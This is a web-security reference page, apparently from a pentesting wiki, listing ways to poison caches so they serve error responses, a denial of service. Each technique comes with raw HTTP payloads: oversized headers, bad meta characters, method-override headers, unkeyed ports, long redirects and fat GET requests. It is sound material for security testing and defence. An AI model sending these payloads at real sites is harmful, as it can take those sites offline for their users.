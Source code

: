 # Cache Poisoning to DoS

> [!CAUTION]
> In this page you can find different variations to try to make the **web server respond with errors** to requests that are **valid for the cache servers**

- **HTTP Header Oversize (HHO)**

Send a request with a header size larger than the one supported by the web server but smaller than the one supported by the cache server. The web server will respond with a 400 response which might be cached:

```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```

- **HTTP Meta Character (HMC) & Unexpected values**

Send a header that contain some **harmfull meta characters** such as and . In order the attack to work you must bypass the cache first.

```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```

A badly configured header could be just `\:` as a header.

This could also work if unexpected values are sent, like an unexpected Content-Type:

```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```

- **Unkeyed header**

Some websites will return an error status code if they **see some specific headers i**n the request like with the _X-Amz-Website-Location-Redirect: someThing_ header:

```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```

- **HTTP Method Override Attack (HMO)**

If the server supports changing the HTTP method with headers such as `X-HTTP-Method-Override`, `X-HTTP-Method` or `X-Method-Override`. It's possible to request a valid page changing the method so the server doesn't supports it so a bad response gets cached:

```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```

- **Unkeyed Port**

If port in the Host header is reflected in the response and not included in the cache key, it's possible to redirect it to an unused port:

```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```

- **Long Redirect DoS**

Like in the following example, x is not being cached, so an attacker could abuse the redirect response behaviour to make the redirect send a URL so big that it returns an error. Then, people trying to access the URL without the uncached x key will get the error response:

```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```

- **Host header case normalization**

The host header should be case insensitive but some websites expect it to be lowercase returning an error if it's not:

```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```

- **Path normalization**

Some pages will return error codes sending data URLencode in the path, however, the cache server with URLdecode the path and store the response for the URLdecoded path:

```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```

- **Fat Get**

Some cache servers, like Cloudflare, or web servers, stops GET requests with a body, so this could be abused to cache a invalid response:

```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```

## References

- [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
- [https://youst.in/posts/cache-poisoning-at-scale/?source=post_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post_page-----3a829f221f52--------------------------------)

